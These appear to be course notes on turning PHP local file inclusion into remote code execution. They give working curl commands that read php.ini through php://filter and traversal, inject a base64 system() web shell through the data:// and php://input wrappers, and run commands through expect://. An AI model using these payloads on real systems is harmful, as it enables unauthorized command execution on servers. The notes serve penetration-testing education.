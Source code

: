 ## Data
* The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code
* However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations
* So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability

#### Checking PHP Configurations
* File is found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version
* We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file
* We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking
* Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it

```sh
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

```sh
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

* `This option is not enabled by default`, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack
* It is `not uncommon to see this option enabled`, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example

#### Remote Code Execution
* With `allow_url_include` enabled, we can proceed with our `data` wrapper attack
* As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code
* We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code

```sh
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg=
```

* `http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGV<SNIP>&cmd=id`

![](data_wrapper_id.png)

* We can also use cURL

```sh
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzd<SNIP>&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input
* The [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code
* The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data
* So, the vulnerable parameter must accept POST requests for this attack to work
* `Input` wrapper also depends on the `allow_url_include` setting

```sh
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

## Expect
* We may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams
* We don't need to provide a web shell, as it is designed to execute commands
* Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases

```sh
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

* We can use the `expect://` wrapper and then pass the command we want to execute

```sh
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

